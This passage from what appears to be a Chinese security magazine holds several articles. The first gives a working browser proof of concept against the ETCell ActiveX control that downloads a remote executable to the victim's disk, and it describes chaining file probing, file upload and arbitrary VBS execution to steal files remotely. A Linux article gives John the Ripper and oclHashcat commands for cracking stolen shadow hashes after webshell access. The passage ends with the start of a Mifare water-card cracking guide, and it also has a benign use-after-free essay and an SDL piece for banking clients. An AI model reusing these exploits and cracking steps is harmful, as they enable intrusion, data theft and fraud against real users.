作为国内知名的报表控件，ETCell 在其行业领域内占有重要地位。国内许多企业公司内部使用的办公系统或者会计系统都采用了该控件作为数据报表的后台支持环境。既然是报表，那么其所涉及到的数据都相对比较敏感，信息安全问题毫无疑问是第一位的。为此，我们针对该报表控件进行了专门的安全测试，可是结果却不容乐观。下面就请读者和我们一起看看 ETCell 诸多的安全漏洞吧！

利用 ComRaider 打开 ETCell 注册的控件文件“etCell.ocx”，可以看到其提供了非常丰富的接口，如图 1 所示。


图 1

大量的接口意味着该控件在应用功能上的强大，可以为用户提供更多的服务，但是，这也间接意味着安全问题的增多。在 ETCell 提供的接口中，我们首先选定了一个名为“HttpGetFile”的接口，该接口原型如图 2 所示。


图 2

从图 2 中不难看出，“HttpGetFile”的主要目的是从参数 sURL 地址上远程获取文件，然后以参数 sSaveFile 指定的文件名保存在本地磁盘上。这真是有趣的设计，如果远程是个木马程序，那岂不是利用该接口可以随意下载到本地？如果放在开机启动目录中，那不就可以最终获得远程控制权限了吗？事实真如此吗？我们首先建立一个测试文件 test.html，该文件的代码如下所示：

```html
<object id='obj' classid='CLSID:{20423C49-2276-43D5-BC6D-53829C41AEAD}'></object>
<script>
document.write(obj.HttpGetFile("http:\\\\ip\\1.exe","c:\\w.exe"))
</script>
```

将该文件保存在虚拟机中的 Web 服务目录下，然后开启浏览器访问该文件，我们发现在 C 盘下真的出现了 w.exe 这个文件！这意味着，我们真的可以利用“HttpGetFile”接口对用户主机远程植入任意木马病毒程序！

第一个可怕的漏洞被揭示出来，接着让我们再看看还有哪些安全问题。如果说第一个漏洞是将文件从远程放到本地，那么现在让我们看看第二个漏洞：将用户主机上的任意文件上传到远程！


图 3

“HTTPPutFile”接口从字面上我们就可以猜到它是干什么的。利用第一个参数 sLocalFile，我们可以直接指定我们想要获取的用户主机上的文件名，然后直接将其上传到 sHost 参数指定的远程主机上即可。测试代码很好写，这里就不赘述了。

如果有人问“我又不知道用户主机上有些啥文件怎么办？”别急，让我们看看第三个漏洞。


图 4

图 4 中的这个接口“OpenDoc”是 ETCell 控件用来打开本地表格文档的接口。它有一个非常有意思的功能，为什么这么说？如果我们指定“OpenDoc”接口打开 C 盘下的 boot.ini 文件，它虽然不能正常打开，但是它依旧会返回一个 true 的结果，原因很简单，因为 boot.ini 文件是存在的。如果“OpenDoc”接口打开的文件不存在，那么它就会返回 false。于是，我们的“坏想法”来了：利用“OpenDoc”接口，我们批量提交给它我们想要判断用户主机是否存在的文件名，对返回 true 的，我们直接利用“HTTPPutFile”接口让其上传到我们的远程服务器上去，这样的“自动化远程窃密”是不是很爽呢！

如果你看到这里说上面的漏洞真够可怕的，那么，不好意思，我要告诉你最可怕的漏洞是可以直接远程执行任意代码，包括程序和命令，你相信吗？


图 5

“RunScript”接口，看到这个名字的时候我彻底无语了，我不知道 ETCell 到底想要把安全底线抛弃到什么地步？测试发现，“RunScript”接口可以执行任意 VBS，更加可怕的是其执行效果是跨域的。这意味着我们借助“RunScript”接口可以直接远程运行任意命令或者程序，最简单的方式就是利用 VBS，建立 shell 对象，然后直接 run 任何命令！效果如图 6 所示。


图 6

图 6 这里我们利用“RunScript”接口远程在用户主机上成功运行了注册表编辑器程序！如果换成个添加用户、开启端口啥的命令，后果不堪设想！

最后，本文旨在讨论安全技术，请不要利用本文中提到的安全技术进行任何违法行为，作者和杂志概不负责。同时，希望 ETCell 控件开发公司能够及时修补漏洞，提供给用户更加安全优良的软件产品。

## UAF 本质论

文/ 木羊

前面我和大家一起讨论了 Use-After-Free（释放后使用，下简称 UAF）类型漏洞的种种技术细节。最近有同学找到我说，你说的我都知道，可为什么 UAF 那么大？不对，是细节都很清楚，为什么看着还是觉得隔着层纱，有点一鳞片爪的感觉？所谓不识庐山真面目，只缘身在此山中。看一个问题，大致可以分为 what、why 和 how 三个阶段。十年前我还在读书的时候就觉得，教科书上把 what 的问题讲得很清楚，考试又对 how 的问题反复演练，但是这些知道得越多越深入，反而心里的疑惑却越大了，why？对，就是缺了 why。现在，我们来探探 UAF 的 why。

抛开之前所讲的 UAF 的种种细节，甚至跳出漏洞的概念框架，别管什么直接间接获取执行权限，从单纯的程序设计的角度来看，UAF 到底是个什么东西？回答很简单，就三个字：野指针。学术一点，叫悬空指针。那成因是什么呢？也很简单，没有及时解引用（dereference）。这里我多说两句，可能有些同学对解引用这个词略感陌生，其实至少在 CS 这行，很多看起来名字很屌的术语，实际扒拉一下也不外如是。解引用是引用（reference）的反操作，而引用又是一个名字很高冷、实际烂大街的操作。最常见的就是指针，相当于通过一个 DWORD“引用”了某个内存中的数据结构。面向对象编程里就更常见了，每一个 new 操作前面都是一个引用。从反汇编的角度来看，引用就是用一个变量保存了某个数据结构的内存首地址，然后通过这个变量对这个内存地址进行种种操作，而解引用就是清除了这个保存地址的变量。

还是觉得读着有点拗口？那让我们思考一个更为本质的问题：什么时候使用指针？看到这个问题，是不是突然惊讶得张了张口？这就对了，指针是个再熟悉不过的玩意，我们都认得也都会用，但为什么非要设计这么一个玩意却很少人真的去思考，这就又是一个深知 what 和 how，而不知道 why 的问题。我不想卷入学术纠纷，就着上文，我觉得大致可以回答成：需要引用时使用指针。具体一点，当我们需要有个变量来保存某个数据结构的内存首地址时，我们就要用到指针了。

回答完了吗？看似是，但还是觉得不透彻。对了，这个问题现在又变成了：“什么时候我们需要有个变量来保存某个数据结构的内存首地址”呢？有点挠头。如果回答“当数据结构的首地址会变的时候，我们就需要有个变量来保存某个数据结构的内存首地址”好像也不错。既然是变量，自然是保存会变的量。不过这样问题还是没有痛快解决。是啊，什么时候数据结构的首地址会变呢？问题成了俄罗斯套娃，一层层揭开来翻下去，啥时才是尽头。

幸而经过编译器编译，数据结构在内存中的首地址就只能有两种。一种是静态的，如全局变量。在编译生成的 PE 文件中，专门有个区段来保存这种静态数据结构的首地址，这是写死在文件中不会发生改变的，在整个内存运行期间也将不会改变（当然文件在内存映射时有可能发生相对变化）。剩下一种自然就是动态的——等等，问题真的这么简单？那么，局部变量是静态的还是动态的？单从内存地址的数值来看，局部变量的内存地址是变化的，看似是动态；但仔细想想，局部变量的内存地址实际上是由栈顶指针计算而成，诸如 ESP+8，相对于栈顶是静态的。这个所谓的变化，实际只是操作系统分配栈地址时发生的变化，而一旦进入运行期，栈地址确定后，局部变量也就是唯一确定了的。真正内存地址会动态变化的，是在程序设计阶段还无法确定个数，或者说在运行阶段个数会发生变化、需要动态申请内存分配的数据结构。举个最简单的例子，CS 的同学一定都做过所谓的图书管理系统。回忆一下，我们用什么保存书籍信息？是链表。无论是双向还是单向，总之一定是链表。因为一本书对应一个保存书籍信息的数据结构，而不同的图书馆所保存的书籍数量很可能是不一样的，具体多少本在编程时也不可能确切获知，还可能出现增删的情况，必须在运行阶段按需申请/释放这些数据结构的内存空间，所以只能用链表这种能够动态拓展的数据结构保存。既然有链表，那一定就有前驱后继，用什么保存前驱节点和后继节点呢？没错，只能是指针。

指针是作为数据结构的引用出现的，而数据结构个数的动态变化，才是指针出现的必然原因。在数据结构个数减少时，没有及时对指针进行解引用，于是有了 UAF。理解了这个，我们才真正理解什么是 UAF。

（完）

## 网上银行客户端安全研究

文/图 下雨天

今天的互联网经济中，尤其对于金融、运营商、电子商务等企业，软件应用不光承载着其核心业务，同时还生成、处理、存储着各类企业的核心敏感信息：账户信息、隐私、业务数据、金融交易记录……一旦软件应用的安全性不足，不但短期内业务中断、声誉受损，各种信息资产还将透过地下交易流入地下经济产业链，从而造成其业务受到持续影响，给企业造成巨大的财务和信誉风险。

网上银行在国内已经有十余年历史，这种互联网经济的基础业务模式从诞生之时起，针对它的攻击行为就层出不穷。用户既享受着网上银行带来的便利性，又非常担心着自己账户里资金的安全。现在，网上银行的安全性已经成为一个不可回避的严重问题。

在网上银行的业务链条中，客户端是最薄弱的环节。即使在安全知识已经普及的情况下，还是有很多网上银行用户的计算机存在各种漏洞，再加上用户的安全意识差，攻击者会轻而易举地找到很多目标。

对网银客户端进行保护，可以使网银最薄弱的环节得到有效加强，从而有效促进网银系统整体的安全性。

### 网银系统开发中的问题

目前的网银系统开发中，无论是银行自主开发还是外包开发，通常都存在这些问题：软件设计主要由业务人员、开发人员确定，很少进行系统性的安全分析。这导致软件功能设计中缺乏必要的安全功能，即使有一些安全功能，也只是依赖于开发人员的经验水平而较随意地添加，基本都有所缺失；代码编写不遵循规范，经常使用有漏洞的函数；缺乏完善的安全评估和测试方法，导致软件漏洞难以被发现。


脆弱性检测阶段之后所带来的修复成本提升

通过对全球 150 名应用开发决策者进行调查后发现，应用已经部署后进行修复漏洞的成本最高，最高可达需求阶段进行完善分析和设计所消耗成本的 30 倍。一旦漏洞需要在部署上线后修复，除去相对固定的漏洞修复工程成本，还将伴随着用户一定程度上的业务能力损失。在开发阶段，甚至需求和设计阶段着手对漏洞进行管理，可成倍降低修复成本，同时在修复手段的选择上也具有最大的灵活性。

SDL 最初是微软为了面对现实世界中安全挑战，在实践中一步步发展起来的工作模式。经过研究，我们也可以把网银客户端的安全与系统开发生命周期中的各个阶段相融合，从而实现端到端的应用安全管理。


如上图，我们将客户端开发安全的管理分为五个阶段：

- 需求分析阶段
- 安全功能设计阶段
- 实施开发阶段
- 测试验证阶段
- 上线发布阶段

每一阶段都包括相应的安全步骤，来有效地使安全与客户端应用融合，同时也是银行内部各类人员共同参与投入的过程。

### 步骤1 需求分析

需求分析作为生命周期的第一步，将对网银客户端安全要求进行细粒度分析，是后续业务数据流呈现以及威胁建模过程中极其重要的依据和基础。

任何一个网银客户端乃至网银系统的核心价值，均与其银行的业务价值紧密联系。而针对于来自行业、国家监管机构以及银行市场的要求，以及该应用承载业务的分析，将形成该网银客户端的安全需求。

下图是 9 大类安全保护功能组成的业务安全需求框架，这 9 大类功能可以视为安全保护功能要实现的目标。


### 步骤 2 安全功能设计

本阶段主要是基于前期的安全需求分析，通过威胁建模（Threat Modeling）等手段，对业务进行数据流层的呈现和分析，利用 STRIDE 模型将数据流及其要素转化成威胁在应用系统的立足点，最终在此基础上形成明确的、基于网银业务流程的安全设计方案。

威胁建模是基于 STRIDE 威胁模型进行威胁分析的结构化方法，其核心是根据业务功能确定和了解各项业务功能的风险，详细了解每个业务功能实现背后的威胁和可能的攻击，推进开发团队在业务实现的基础上融入安全功能，使风险管理的决策更加与业务过程相协调。

下面以网银转账业务流程为例，进行威胁建模的说明：

### 网银转账业务流程


网银转账业务在威胁建模过程中数据流图（DFD）呈现。

威胁建模中，通常采用 STRIDE 方法来识别威胁，这是六类威胁手段的英文首字母缩写，意为：假冒（Spoofing）、篡改（Tampering）、抵赖（Repudiation）、信息泄露（Information Disclosure）、拒绝服务（DoS）、提升权限（EoP）。

| 元素类别 | 元素名称 | 元素内容 | STRIDE威胁 | STRIDE描述 |
|---|---|---|---|---|
| 数据流 | 数据流1 | 转账请求 |  |  |
| 数据流 | 数据流2 | 余额显示：卡号、余额 |  | 依赖于查询功能 |
| 数据流 | 数据流3 | 账号；收款户名；金额；短信通知收款人；附言 | TID | 收款人网银号、收款人姓名被篡改 |
| 数据流 | 数据流4 | 交易跳转指令 |  |  |
| 数据流 | 数据流5 | 支付密码 |  | 支付密码被监听和篡改 |
| 数据流 | 数据流6 | YES返回结果 |  |  |
| 数据流 | 数据流6.1 | NO返回结果 |  |  |
| 存储 | 网银客户端存储 | 用户证书，用户账号 | SR | 持卡人登录密码泄露 |
| 存储 | 网银银行服务器存储 | 用户密码，用户账户信息，用户交易信息 | SR |  |
| 过程 | 过程1 | 客户端生成转账请求 |  | 持卡人账号泄露 |
| 过程 | 过程2 | 服务端查询并生成结果 |  | 持卡人账号、余额泄露 |
| 过程 | 过程3 | 客户端选择卡号并输入相关信息 | STRIDE | 转账信息（收款人网银号、收款人账号、转账金额等）信息泄露；收款人网银号、收款人账号被篡改 |
| 过程 | 过程4 | 服务端处理转账 |  | 持卡人支付密码泄露 |
| 过程 | 过程5 | 客户端显示转账结果 |  | 信息泄露，信息篡改（转账） |
| 交互方 | 网银银行用户 |  | SR | 交易请求抵赖，交易请求伪造 |
| 交互方 | 网银服务器 |  |  | 假冒银行服务器 |

上表为对网银转账业务的威胁分析结果，可以看出，网银客户端需要保护的对象——各类敏感信息——包含在威胁分析的四类元素中：数据流、存储、过程和交互方。这些元素受到威胁时，即对需保护对象造成了风险。针对每一类元素，其威胁的方法和种类不尽相同。

经过威胁分析后，对于每一种威胁都有相应的消减机制，我们采用一个或多个具体的技术来实现目标。

### 步骤 3 开发安全管理

在开发阶段，针对系统的安全功能、安全策略、安全实现等三个方面，应用采用安全的编码方法，保证权限对象、数据流、交互处理、数据存储、边界处理的安全性。安全编码规范主要针对以下方面：

- 应用系统安全功能，如验证要求。
- 应用系统安全策略，如加密方法。
- 常见高危漏洞编码解决方案，如 SQL 注入、XSS 的开发解决方案。
- 不推荐使用的开发函数列表。
- 最佳安全编码实践。

安全编码服务主要面向 Web 应用，可以提供 ASP、ASP.NET（VB/C#）、Java、PHP 等主流语言所编写代码的安全指导，不仅提供包括基本安全功能、基本安全开发要求、规避高危漏洞的编码方案、不推荐的开发函数列表、最佳安全编码实践在内的通用安全开发策略，还可根据网银客户端的功能需求、行业标准、公司策略、数据敏感级别、误用滥用用例等具体信息，为应用开发提供具体的安全开发指导。

代码编写结束后，开发人员之间应随机互相阅读代码，检查其编写正确与否的代码检查方式。

代码走读根据目的的不同，可以分为四个层次：

- 检查是否符合编程规范
- 寻找编译器中的设计陷阱

- 快速理解源代码，找出流程设计中的问题  
- 对原有代码的重构

## 步骤4 测试验证阶段

测试验证阶段中，需要对网银客户端的安全性问题进行严格的检查，力求发现安全问题。在前面的需求分析、设计和开发阶段中，虽然进行了较多的工作，仍然可能存在遗漏，而产生漏洞。测试验证阶段就要找出这些漏洞，并尽量加以纠正。需要注意的是，测试验证团队应尽量独立于系统设计和开发团队。


网银客户端的测试通常包括：业务保护能力测试、密码保护测试、进程保护测试、屏幕截取保护测试和交易签名安全性测试等；程序自身安全性测试，如安全编译选项检测、BANNED API 检测、反逆向分析保护能力检测、程序常规安全部署等；合规性测试，即对网银客户端是否符合监管部门要求进行对标测试，主要需要符合《网上银行系统信息安全通用规范》中的要求。

## 步骤5 上线发布阶段

在系统上线阶段，应用系统集成到真实环境之后，应对系统整体进行安全性测试，以发现集成系统中存在的安全问题。由于应用集成系统所处的系统平台、所使用的网银客户端、数据库软件、开发语言、应用架构等各不相同，需要全面地进行系统、应用漏洞扫描、Web 应用扫描、基线配置检测等评估工作。集成测试后进行最终安全评审。这是对产品开发组在软件应用开发安全生命周期中是否准确无误地遵循生命周期管理过程相关要求逐一进行验证，并根据“安全交付标准”是否准备无误地完成了安全实现。其目的是为了证明从安全和隐私的角度，产品已经做好了交付给终端客户的一切准备。

- 对开发部门的安全调查问卷  
- 对安全交付标准、安全方案进行评审  
- 对威胁模型进行评审  
- 对未修复的安全 Bug 评审  
- 对工具有效性验证

## 总结及展望

当前的国内网银客户端普遍存在着安全问题，其中很多都是严重的漏洞。客户端的安全问题可以借助 SDL 安全开发生命周期进行管理，经过需求分析、安全功能设计、实施开发、测试验证和上线发布等五大阶段，在每一阶段都包括相应的安全步骤来有效地使安全与客户端应用融合，从而有效地从源头上解决客户端安全问题。

（完）

## Linux 密码破解技术研究

文/simeon

Linux 操作系统由于其开源性、低成本等特点，在商业上运用越来越多，很多公司都采用 LAMP（Linux+Apache+Mysql+PHP）典型架构。相对于 Windows 操作系统的密码获取技术而言，Linux 密码获取比较困难。在 Windows 中可以通过彩虹表、键盘记录、mimikatz_trunk 域名注入获取密码等技术获取包括 Windows 2008 Server 在内的所有操作系统密码，不管操作系统本身设置多么复杂变态的密码；但在 Linux 操作系统中，设置一个非常复杂的密码，破解成功的几率相对较低。在获得网站 Webshell 权限的前提下，通过提权等方法获得了系统权限，通过查看“/etc/shadow”文件内容获取了 Linux 操作系统的用户名和加密密码，获取密码文件后，如何进行破解是一大难题。本文就 Linux 下的密码原理、加密算法等进行分析，并对如何破解 Linux 的密码进行研究。

### Linux 密码原理

### 1）Linux 密码构成

在一般 Linux 系统中，涉及系统登录密码的两个重要文件是 /etc/passwd 和 /etc/shadow，有些特殊系统会是其它文件例如 security；第一个文件记录用户信息，第二个是真正保存用户密码信息的。

### 1.1 passwd 文件构成

在 /etc/passwd 中，每一行都表示一个用户的信息；一行有 7 个段位；每个段位用 : 号分割。下面是 Linux 操作系统中的 /etc/passwd 的两行；其格式为：username:x:UID:GID:username full:username home:shell type。

第一字段：用户名（也被称为登录名）；第二字段：口令，显示为 x 表示其实密码已被映射到 /etc/shadow 文件中；第三字段：UID，是用户的 ID 值，在系统中具有唯一特性，也即每个用户的 UID 值是唯一的。更确切地说，每个用户都要对应一个唯一的 UID。默认 root 的 UID 是 0，拥有系统最高权限。系统用户的 UID 值从 0 开始，是一个正整数，最大值可以在 /etc/login.defs 查到，一般 Linux 发行版约定为 60000；UID 的唯一性关系到系统的安全，如果在“/etc/passwd”文件中把 test 的 UID 改为 0 后，test 用户会被确认为 root 用户，test 这个帐号可以进行所有 root 的操作。

UID 是确认用户权限的标识，用户登录系统所处的角色是通过 UID 来实现的，而非用户名，把几个用户共用一个 UID 是危险的。一般情况下，每个 Linux 发行版都会预留一定的 UID 和 GID 给系统虚拟用户占用，虚拟用户一般是系统安装时就有的，是为了完成系统任务所必须的用户，但虚拟用户是不能登录系统的，比如 ftp、nobody、adm、rpm、bin、shutdown 等；在 Fedora 系统会把前 499 个 UID 和 GID 预留出来，添加新用户时的 UID 是从 500 开始的，GID 也是从 500 开始。至于其它系统，有的系统可能会把前 999 个 UID 和 GID 预留出来；以各个系统中 /etc/login.defs 里的 UID_MIN 最小值为准；Fedora 系统 login.defs 的 UID_MIN 是 500，而 UID_MAX 值为 60000，也就是说我们通过 adduser 默认添加的用户 UID 值是 500 到 60000 之间；而 Slackware 通过 adduser 不指定 UID 来添加用户，默认 UID 是从 1000 开始。

提及 UID，在 Linux 中还有一个 SUID，它是 Set UID 的简称，翻译过来是设置用户 ID。它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。SUID 只对二进制文件有效，调用者对该文件有执行权，在执行过程中，调用者会暂时获得该文件的所有者权限，该权限只在程序执行的过程中有效。

第四字段：GID；用户组 ID 号。Linux 系统中除了 GID 外，还有一个 SGID，它和 SUID 关系系统安全。SGID 即 Set GID 的缩写，它出现在文件所属组权限的执行位上面，它对普通二进制文件和目录都有效。当它作用于普通文件时，和 SUID 类似，在执行该文件时，用户将获得该文件所属组的权限。当 SGID 作用于目录时，意义就非常重大了。当用户对某一目录有写和执行权限时，该用户就可以在该目录下建立文件，如果该目录用 SGID 修饰，则该用户在这个目录下建立的文件都属于这个目录所属的组。

第五字段：用户名全称，这是可选的，可以不设置。  
第六字段：用户的家目录所在位置。  
第七字段：用户所用 SHELL 的类型，常见为 /bin/bash。

### 1.2 shadow 文件构成

/etc/shadow 文件是 /etc/passwd 的影子文件，这个文件并不是由 /etc/passwd 产生的，这两个文件应当是对应互补的；shadow 内容包括用户及被加密的密码以及其它 /etc/passwd 不能包括的信息，比如用户的有效期限等；这个文件只有 root 权限可以读取和操作。

/etc/shadow 文件的内容包括 9 个段位，每个段位之间用 : 号分割；通过研究发现，即使两个帐号的密码相同，其密码加密值也不一样。其各个字段的含义如下：

- 1. 第一字段：用户名（也被称为登录名）。在 /etc/shadow 中，用户名和 /etc/passwd 是相同的，这样就把 passwd 和 shadow 中的用户记录联系在一起；这个字段是非空的。  
- 2. 第二字段：密码（已被加密）。如果有些用户在这段是 x，表示这个用户不能登录到系统；这个字段是非空的。  
- 3. 第三字段：上次修改口令的时间。这个时间是从 1970 年 01 月 01 日算起到最近一次修改口令的时间间隔（天数），您可以通过 passwd 修改用户密码，然后查看 /etc/shadow 中此字段的变化。  
- 4. 第四字段：两次修改口令间隔最少的天数；如果设置为 0，则禁用此功能；也就是说用户必须经过多少天才能修改其口令；此项功能用处不是太大；默认值是通过 /etc/login.defs 文件定义中获取，PASS_MIN_DAYS 中有定义。  
- 5. 第五字段：两次修改口令间隔最多的天数；这个能增强管理员管理用户口令的时效性，应该说增强了系统的安全性；如果是系统默认值，是在添加用户时由 /etc/login.defs 文件定义中获取，在 PASS_MAX_DAYS 中定义。  
- 6. 第六字段：提前多少天警告用户口令将过期；当用户登录系统后，系统登录程序提醒用户口令将要作废；如果是系统默认值，是在添加用户时由 /etc/login.defs 文件定义中获取，在 PASS_WARN_AGE 中定义。  
- 7. 第七字段：在口令过期之后多少天禁用此用户；此字段表示用户口令作废多少天后，系统会禁用此用户，也就是说系统不能再让此用户登录，也不会提示用户过期，是完全禁用。  
- 8. 第八字段：用户过期日期；此字段指定了用户作废的天数（从 1970 年的 1 月 1 日开始的天数），如果这个字段的值为空，帐号永久可用。  
- 9. 第九字段：保留字段，目前为空，以备将来 Linux 发展之用。  

例如 root 帐号在 /etc/shadow 文件中的表现方式为：

```text
root:$1$kbIAhX/R$PiLL1U.n6bivtlr4oTi2y0:15377:0:99999:7:::
```

### 2）Linux 密码文件位置

绝大部分 Linux 操作系统的密码文件为 shadow，但也有一些特殊的 Linux/Unix 操作系统的密码文件名称为 passwd，而且密码文件所在位置也不一样。下面是一些 Linux 常见系统的密码文件位置：

- Linux /etc/shadow  
- SystemV Release 4.2 /etc/security  
- SystemV Release 4.0 /etc/shadow  
- SunOS 5.0 /etc/shadow  
- SCOUnix /tcb/auth/files/  
- OSF/1 /etc/passwd  
- HP-UX /.secure/etc/passwd  
- BSD4.x /etc/master.passwd  
- AIX3 /etc/security/passwd  
- IRIX5 /etc/shadow  

## Linux 系统采用的加密算法

### 1）查看密码的加密算法

Linux 帐户的密码加密后存放于 /etc/shadow 文件中。对于 Linux 操作系统的密码采用哪种加密方式，取决于 /etc/pam.d/system-auth 或者 /etc/pam.d/passwd 文件定义，通过 `more /etc/pam.d/system-auth` 或者 `authconfig --test | grep hashing` 命令可以获取操作系统使用哪种加密算法，目前有 sha256、sha512 和 md5 加密算法。

在 Red Hat Enterprise Linux Server 中，可以通过 `authconfig --test | grep hashing` 命令来获取当前系统帐号的密码加密算法。如图 1 所示。


图 1 获取 Red Hat Enterprise Linux Server 系统帐号加密算法

### 2）常见的 Linux/Unix 加密算法

Linux/UNIX 操作系统目前采用 5 种加密算法，可以通过加密后的密码值来识别，主要是通过帐号后面的 `$X` 来判断。在 hash 值中，两个“$”符号之间的数字代表不同的加密算法，系统不同所使用的算法也不尽相同。第二个“$”符号之后的字符串就是 salt 值，加密的时候需要用到（取每八个字符的每个字符的低 7 个 bit 位（取得的结果为 01 串）），然后得到 8*7=56 个 bit 位，然后用一定的规则反复加密，返回指向包含 13 个可打印 ASCII 码字符（[a-zA-Z0-9./]）的指针，通常取前两位作为 salt 位。第三个“$”后面为密码经过 hash 变化后的值。在 Hash 值中头两字节为 `$1` 表示 MD5 加密算法，`$2` 表示使用 Blowfish 加密算法，`$5` 表示使用 SHA-256 加密算法，`$6` 表示使用 SHA-512 加密算法，其余为标准的 DES。例如“root:$1$kbIAhX/R$PiLL1U.n6bivtIr4oTi2y0:15377:0:99999:7:::”其加密算法为 md5。数字和所使用的加密算法以及字符串位数对应关系：

- 1：MD5（22 位）  
- 2a：Blowfish，只在有一部分 Linux 分支中使用的加密方法  
- 5：SHA-256（43 位）  
- 6：SHA-512（86 位）  

后面两种加密算法只在 glibc 2.7 版本之后才支持。

## 3）Linux 密码及相关操作

### 3.1 Linux 密码操作

对于 Linux 密码操作主要是增加、删除和修改。第一次添加用户时需要设定一个密码。修改密码使用“passwd”，删除密码在删除用户时系统自动删除设置的密码。

- 1. 读取密码文件  
  读取密码加密文件必须具备 Root 权限，通过“cat /etc/shadow”命令来读取 shadow 文件内容，通过“cat /etc/passwd”查看用户信息，该文件普通用户权限即可查看。  
- 2. 设置密码  
  “passwd username”为 username 用户设置密码，比如“passwd mysql”就是为 mysql 用户设置密码，后面根据提示需要输入两次用户密码。  
- 3. 添加和删除用户  
  useradd 和 adduser 用来建立用户帐号和创建用户的起始目录，使用权限是超级用户。例如命令“useradd antian365 -u 644”，就是在系统中增加一个用户 antian365，同时指定用户所在组 GID 为 644。删除用户命令为“userdel username”，例如删除 antian365 用户命令为“userdel antian365”。  
- 4. Linux 查看用户的 UID 和 GID  
  使用“id”命令获取当前用户的 uid、gid 等信息，例如获取当前用户 root 的信息；通过“id username”获取指定用户的 uid、gid 等信息。  

### 3.2 直接生成 shadow 密码

- 1. 生成基于 md5 加密算法的 Linux 密码  
  1) 自定义设置密码  
  2) 设置密码为 123456  
  3) 自定义 salt 的 md5 加密  

```bash
openssl passwd -1 -salt $(</dev/urandom tr -dc '[:alnum:]' | head -c 32)
echo "123456" | openssl passwd -1 -salt $(</dev/urandom tr -dc '[:alnum:]' | head -c 32) -stdin
perl -e 'print crypt("123456",q($1$aCbLBNgo)),"\n"'
```

123456 为要给用户设置的密码，$1$aCbLBNgo 字符串是自定义字符串，shadow 里一般用 $1$ 后面跟 8 个字符这种格式。

- 2. 生成基于 sha512 加密算法的 Linux 密码

```bash
python -c "import crypt,random,string; print crypt.crypt(raw_input('clear-text password: '), '\\$6\\$' + ''.join([random.choice(string.ascii_letters + string.digits) for _ in range(16)]))"
```

## Linux 密码破解技术

### 1）使用 John the Ripper

John the Ripper 是一个流行的口令破解工具，它支持 Windows 和 Linux 平台，是一个开源软件。目前最新 Windows 版本为 1.7.9，Linux 版本最新为 1.8.0。Windows 版本下载地址：http://www.openwall.com/john/h/john179w2.zip，Linux 版本下载地址：http://www.openwall.com/john/j/john-1.8.0.tar.xz。

### 1.1 安装 John the Ripper

在 Debian 操作系统上执行“aptitude install john”，在 Fedora 和 CentOS 操作系统上执行“yum install john”，在 Arch Linux 上执行“pacman -S john”，在 OpenSUSE Linux 上执行“zypper install john”，在 Gentoo 上执行“emerge johntheripper”命令。在 BT5 和 Kali 渗透平台上默认集成了 John the Ripper 软件，Windows 下是免安装的。

### 1.2 运行 John the Ripper 破解 Linux 密码

破解 Linux 密码首先需要使用 unshadow 命令得到一个破解程序识别的口令文件，将 /etc/passwd 和 /etc/shadow 文件组合起来，执行“unshadow /etc/passwd /etc/shadow > passwd”。然后使用 john 进行破解。John the Ripper 一共有简单、字典、增强和外挂四种破解模式。默认情况下，John 使用 passwd.lst 作为攻击用的字典文件，我们可以编辑这个文件或创建自己的口令文件。其命令如下：

```bash
john -single passwd //单一模式
john -wordfile:bigdict.dic passwd //字典破解模式
john -wordfile:bigdict.dic -rules passwd //字典加规则进行破解
john -i:all passwd //增强模式破解
john -external:double passwd //外挂模式破解
john -show passwd //查看密码破解器结果
john.pot 会自动记录破解成功的密码。
```

### 2）使用 oclHashcat 破解 Linux 密码

oclHashcat32 是一款开源软件，有 Linux 和 Windows 两个版本，其 Windows 下破解 Linux 三种加密算法命令如下：

- 1. 破解 Linux 下 md5 算法加密密码  
- 2. 破解 Linux 下 sha256 算法加密密码命令。该命令保存破解结果到 sha256passok.txt 中，密码文件为 sha256.txt，pass.txt 为字典文件，破解成功后自动移除已经破解的 hash。  
- 3. 破解 Linux 下 sha512 算法加密密码  

```bash
oclHashcat32 -m 500 -a 0 linuxmd5.txt p.txt
oclHashcat32 -m 1400 -a 0 -o sha256passok.txt --remove sha256.txt pass.txt
oclHashcat32 -m 1800 -a 0 -o 512 sha512passok.txt --remove sha512.txt pass.txt
oclHashcat.pot 文件会自动记录破解密码，可以通过查看该文件来获知密码破解情况。
```

## RFID 入门-Mifare1 卡破解分析

图/文 致敬 RadioWar

好几个月没有新的好的渗透内容值得提交到黑防上来了，一直手痒 RFID 这个领域。准备了一段时间，开始入门 RFID。先来普及一下基础知识。

RFID 即为射频识别。NFC 近场通信。很多人把 NFC 和 RFID 混为一谈，但实际上 NFC 可以理解为“以 RFID 技术为基础的一种产品”。RFID 技术中所衍生的产品大概有三大类：无源 RFID 产品、有源 RFID 产品、半有源 RFID 产品。根据 RFID Tag 的工作方式，又可分为被动、主动、半主动三种。最常见的就是被动式。我们目前接触较多的就是无源、被动式产品，其中最为广泛常见的就是 MIFARE Classic 1K 卡，简称 M1 卡、S50 卡。M1 卡有从 0-15 共 16 个扇区，每个扇区配备了从 0-3 共 4 个段，每个段可以保存 16 字节的内容。每个扇区的 03 段是用来保存 KeyA、KeyB 和控制位的，因为 M1 卡允许每个扇区有一对独立的密码保护，这样能够更加灵活地控制数据的操作，控制位就是这个扇区各种详细权限。限计算出来的结果。每张 M1 卡都有一个全球唯一的 UID 号，这个 UID 号保存在卡的 00 扇区的 00 段，也称为厂商段，其中前 4 个字节是卡的 UID，第 5 个字节是卡 UID 的校验位，剩下的是厂商数据。并且这个段在出厂之前就会被设置写入保护，只能读取不能修改。当然也有例外，有种叫 UID 卡的特殊卡，UID 是没有设置保护的，其实就是厂家不按规范生产的卡。更多的资料请百度、谷歌之，就目前来说我们简单了解下就够了。有了这些大体的了解，我们就开始今天尝试破解一张水卡试试。

- 工具：ACR122U-A9，UID 可写白卡，待破水卡
- 平台&软件：Win7 x64、XP：RadioWar 的 NFCGUI-Pro，简化版的 mfocgui
- Kali 平台：mfoc，nfc-mfclassic

关于 ACR122U-A9 读卡器，虽然比不上 PM3 那么神通广大，但是对于入门学习来说绝对算得上神器了。某宝上一搜一堆，很多店都卖 165 元左右（爆个内幕，其实都是一家）。然后就是 UID 可写的卡了，大约 3 元一张。平台选择这两个是因为入门来说自然首选 Win 平台，但是其中出现了一些问题，虽然失败但也贴出来供大家查错。

## 分析、确定卡片

